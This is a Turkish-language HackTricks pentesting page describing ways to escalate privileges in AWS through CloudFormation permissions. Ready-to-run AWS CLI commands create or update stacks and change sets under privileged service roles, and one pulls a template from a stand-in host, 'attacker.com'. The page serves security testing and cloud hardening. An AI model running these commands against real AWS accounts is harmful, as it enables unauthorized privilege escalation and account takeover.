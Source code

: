 # AWS - Cloudformation Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## cloudformation

Cloudformation hakkında daha fazla bilgi için kontrol edin:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### `iam:PassRole`, `cloudformation:CreateStack`

Bu izinlere sahip bir saldırgan **yetkileri artırabilir** ve **belirtilen bir rolün izinleri altında eylemler gerçekleştirmek için** kendi sunucusunda barındırılan özel bir şablon ile bir **CloudFormation yığını** oluşturarak:
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Aşağıdaki sayfada **bir istismar örneği** ile ek izin **`cloudformation:DescribeStacks`** bulunmaktadır:

{{#ref}}
iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md
{{#endref}}

**Olası Etki:** Belirtilen cloudformation hizmet rolüne privesc.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Bu durumda, **mevcut bir cloudformation yığınını** güncelleyerek ve önceki senaryodaki gibi ayrıcalıkları artırarak kötüye kullanabilirsiniz:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` izni, bir yığın üzerinde **kendinize `UpdateStack` izni vermek** için kullanılabilir ve saldırıyı gerçekleştirebilirsiniz.

**Olası Etki:** Belirtilen cloudformation hizmet rolüne privesc.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Bu izne sahipseniz ancak **hiç `iam:PassRole` yoksa**, yine de **kullanılan yığınları güncelleyebilir** ve **zaten eklenmiş IAM Rolleri** kötüye kullanabilirsiniz. Sömürü örneği için önceki bölüme bakın (güncellemeye herhangi bir rol belirtmeyin).

`cloudformation:SetStackPolicy` izni, bir yığın üzerinde **kendinize `UpdateStack` izni vermek** için kullanılabilir ve saldırıyı gerçekleştirebilirsiniz.

**Olası Etki:** Zaten eklenmiş cloudformation hizmet rolüne privesc.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Bir rolü **geçirme ve bir ChangeSet oluşturma & yürütme** izinlerine sahip bir saldırgan, **yeni bir cloudformation yığını oluşturup/güncelleyebilir ve cloudformation hizmet rollerini** CreateStack veya UpdateStack ile olduğu gibi kötüye kullanabilir.

Aşağıdaki sömürü, **ChangeSet izinlerini** kullanarak bir yığın oluşturmanın **bir varyasyonudur**[ **CreateStack bir**](./#iam-passrole-cloudformation-createstack).
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` izni, bir yığın üzerinde **kendinize `ChangeSet` izinleri vermek** için kullanılabilir ve saldırıyı gerçekleştirebilirsiniz.

**Olası Etki:** cloudformation hizmet rolleri için privesc.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Bu, **IAM rolleri** geçmeden önceki yöntem gibidir, bu nedenle sadece **zaten eklenmiş olanları kötüye kullanabilirsiniz**, sadece parametreyi değiştirin:
```
--change-set-type UPDATE
```
**Olası Etki:** Zaten ekli olan cloudformation hizmet rolüne privesc.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Bir saldırgan, bu izinleri kötüye kullanarak, keyfi cloudformation rollerini kötüye kullanmak için StackSet'ler oluşturup/güncelleyebilir.

**Olası Etki:** Cloudformation hizmet rollerine privesc.

### `cloudformation:UpdateStackSet`

Bir saldırgan, passRole izni olmadan bu izni kötüye kullanarak, ekli cloudformation rollerini kötüye kullanmak için StackSet'leri güncelleyebilir.

**Olası Etki:** Ekli cloudformation rollerine privesc.

## Referanslar

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../../banners/hacktricks-training.md}}
